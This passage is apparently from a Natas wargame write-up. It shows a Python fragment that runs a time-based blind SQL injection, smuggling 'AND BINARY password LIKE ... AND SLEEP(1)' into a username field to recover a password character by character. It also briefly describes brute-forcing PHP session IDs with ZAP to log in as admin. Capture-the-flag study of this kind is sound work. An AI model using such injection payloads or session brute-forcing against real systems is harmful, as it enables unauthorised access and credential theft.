 ```python
        print("".join(pospass)+character)
        
        response=session.post(url,data={'username':'natas18" AND BINARY password LIKE "'+ "".join(pospass)+character+ '%" AND SLEEP(1) # '},auth=(user,passw))
        content=response.text

        end_time=time()

        dif=end_time-start_time

        if dif>1:
            pospass.append(character)
            break
```

Here, I just put image for you the output of code to imagine the purpose of exploit.
![natas18](images/natas18.png)


# Natas 19
From this lab, I understood that here **PHPSESSSION** that which needs to be value 640 as maximum.
For that, we need to brute-force from 1 to 641 to log in as admin to see password of natas19.
To automate process, I just use ZAP.

![natas19](images/natas19.png)

